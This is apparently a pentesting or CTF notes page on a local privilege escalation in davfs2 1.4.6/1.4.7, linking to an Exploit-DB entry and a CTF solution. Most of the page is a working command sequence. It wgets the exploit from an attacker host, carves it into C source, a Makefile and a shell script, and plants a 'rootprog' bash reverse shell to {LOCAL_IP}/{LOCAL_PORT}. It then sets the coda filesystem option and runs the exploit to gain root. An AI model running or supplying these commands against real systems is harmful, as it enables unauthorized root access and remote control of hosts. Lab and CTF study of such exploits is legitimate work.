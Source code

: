 ```yaml
---
description: davfs2 1.4.6/1.4.7 - Local Privilege Escalation
---
```


# davfs2

[https://www.exploit-db.com/exploits/28806\
https://github.com/sectalks/sectalks/blob/master/ctf-solutions/SYD0x0b/z00nx/README.md](https://www.exploit-db.com/exploits/28806https://github.com/sectalks/sectalks/blob/master/ctf-solutions/SYD0x0b/z00nx/README.md)

```
<1.4.6/etc$ cat /etc/apache2/sites-enabled/000-default                       
NameVirtualHost *:80
<VirtualHost *:80>
        ServerAdmin webmaster@localhost

        DocumentRoot /var/www/test/web/
        <Directory /var/www/test/web/>
                Options Indexes MultiViews
                AllowOverride None
                Order allow,deny
                allow from all
        </Directory>

        Alias /webdav /var/www/test/web

        <Location /webdav>
           DAV On
           AuthType Basic
           AuthName "webdav"
           AuthUserFile /var/www/test/passwd.dav
           Require valid-user
       </Location>


htdigest /var/www/test/passwd.dav webdav test
password:pass

locate depmod
/sbin/depmod
export PATH=/sbin:$PATH

cd ~

wget http://{LOCAL_IP}/28806.temp.txt
tr -d '\r' < 28806.temp.txt > 28806.txt
sed -n '40,73p' 28806.txt > coda.c
sed -n '84,90p' 28806.txt > Makefile
sed -n '101,192p' 28806.txt > exploit.sh
echo '#!/usr/bin/env bash' > /home/{user}/rootprog
echo 'bash -i >& /dev/tcp/{LOCAL_IP}/{LOCAL_PORT} 0>&1' >> /home/{user}/rootprog
chmod +x /home/user/rootprog
chmod +x exploit.sh
echo 'kernel_fs       coda' >> .davfs2/davfs2.conf
./exploit.sh

mount /home/user/dav/
test
pass
```

